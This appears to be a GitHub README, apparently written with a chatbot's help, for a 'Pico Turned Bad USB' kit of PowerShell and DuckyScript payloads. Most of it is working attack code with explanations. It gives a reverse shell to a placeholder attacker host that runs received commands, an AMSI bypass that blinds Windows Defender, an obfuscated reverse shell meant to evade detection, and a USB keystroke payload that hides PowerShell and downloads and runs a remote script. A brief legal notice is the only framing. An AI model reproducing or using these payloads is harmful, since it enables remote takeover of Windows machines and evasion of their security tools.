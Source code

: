 # Pico Turned Bad USB

PowerShell Pentest Scripts
This repository contains several PowerShell scripts and DuckyScript payloads for red teaming, CTFs, or educational research on Windows targets.
Use responsibly and only on systems you are authorized to test.

File 1: Reverse Shell (PowerShell)
Script:

powershell
$client = New-Object System.Net.Sockets.TCPClient("YOUR_IP",L_PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
Purpose:
Establishes a reverse TCP shell from the target machine to an attacker's server. Once connected, the attacker can execute PowerShell commands on the victim's machine remotely, and the output is sent back over the same connection.

How it works:

Connects to the attacker's machine (YOUR_IP/L_PORT must be set).

Waits for commands, executes them with iex, and returns output.

Keeps the shell open until the connection closes.

File 2: Windows Defender Bypass & Obfuscated Reverse Shell
Defender Bypass
powershell
$s = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$s::amsiInitFailed = $true;
Purpose:
Disables Windows Antimalware Scan Interface (AMSI), helping PowerShell scripts evade detection by Windows Defender.

Obfuscated Reverse Shell
powershell
$ip='YOUR_IP';$p=L_PORT;
$tc='System.Net.Sockets.TCPClient';$t=New-Object ($tc) ($ip,$p);
$s=$t.GetStream();
$buf=0..65535|%{0};
$enc='System.Text.ASCIIEncoding';
while(($i=$s.Read($buf,0,$buf.Length)) -ne 0){
    $d=(New-Object -TypeName $enc).GetString($buf,0,$i);
    $sb=(iex $d 2>&1 | Out-String );
    $sb2 = $sb+'PS '+(pwd).Path+'> ';
    $send=([text.encoding]::ASCII).GetBytes($sb2);
    $s.Write($send,0,$send.Length);$s.Flush()
};$t.Close()
Purpose:
A reverse shell using shorter, variable-based names to hinder detection.

How it works:

Obfuscates variable and type names.

Connects back to attacker's server with IP and port.

Receives commands, executes, sends output back.

File 3: DuckyScript – Remote Loader
text
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 800
STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
ENTER
Purpose:
This DuckyScript automates opening the Windows Run dialog, launching a hidden PowerShell window, and executing a remote PowerShell payload downloaded from your server.

How it works:

Waits 1 second, then opens the Run dialog (GUI r).

Types and runs a hidden PowerShell session.

Downloads and executes a remote PowerShell script using IEX (Invoke-Expression) and Net.WebClient.

Customization:

Replace YOUR_IP, L_PORT, and YOUR_FILE.ps1 with your server details and script filename.

Ensure your server is accessible from the target.

⚠️ Legal Notice
These scripts are for educational purposes and authorized testing only.
Unauthorized use is illegal and unethical.

Let me know if you want these explanations formatted or expanded differently!
